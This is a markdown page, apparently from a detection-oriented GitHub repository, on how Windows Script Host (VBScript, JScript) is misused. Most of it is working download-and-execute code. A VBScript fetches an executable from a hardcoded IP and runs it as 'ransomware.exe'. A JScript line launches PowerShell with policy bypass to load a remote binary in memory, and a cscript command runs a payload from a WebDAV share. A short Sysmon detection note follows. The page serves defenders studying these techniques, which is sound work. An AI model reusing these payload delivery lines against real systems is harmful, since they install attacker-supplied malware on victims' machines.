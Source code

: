 ## WSH

> **Windows Script Hos**t (WSH)  is an automation technology for Microsoft Windows operating systems that provides scripting abilities comparable to batch files, but with a wider range of supported features
>
> **It is language-independent** in that it can make use of different Active Scripting language engines. By default, it interprets and runs plain-text **JScript** (.JS and .JSE files) and **VBScript** (.VBS and .VBE files). **Visual Basic for Applications** (VBA) is a third default scripting engine, installed with Microsoft Office.
>
> 
>
> -- Wikipedia



WSH uses 2 different executables Wscript.exe (Support GUI )and Cscript.exe(CLI)

WSH supports 

- VBScript
- JScript
- VBA

those scripting languages are like any languages, could be used to do solve some problem like any programming language or use in malicious way.

many languages need Interpreter to be able to run, any most of those interpreters are not installed by default, unlike WSH which is pre-installed on All windows version, so the langauge that WSH support were misused to create malicious scripts


**VBScript**

```vbscript
Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://18.185.124.52/ransinvoke.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe", 2 '//overwrite
end with
Set objShell = Wscript.CreateObject("Wscript.Shell")
objShell.run("C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe")
```

Download ransinvoke.exe from internet and save it to the disk, then run it.



**JScript**

```vbscript
a = new ActiveXObject('Wscript.Shell');
cmd = "powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://18.185.124.52/ransinvoke.exe')).EntryPoint.Invoke($Null,$Null))";
a.Run(cmd,0);

```

```powershell
`cscript ``//E``:jscript \\webdavserver\folder\payload.txt`
```

Process performing network call: **svchost.exe**
Payload written on disk: **WebDAV client local cache**



### Detection

- sysmon
  - Process Create
    - Cscript.exe or Wscript.exe with command line contains the file which will be loaded



![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Rundll32/Misc/Mermaid.svg)

### Reference

[Link1]: https://ss64.com/vb	"Reference for VBscript"



[Link2]: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/	"Many one Liners"



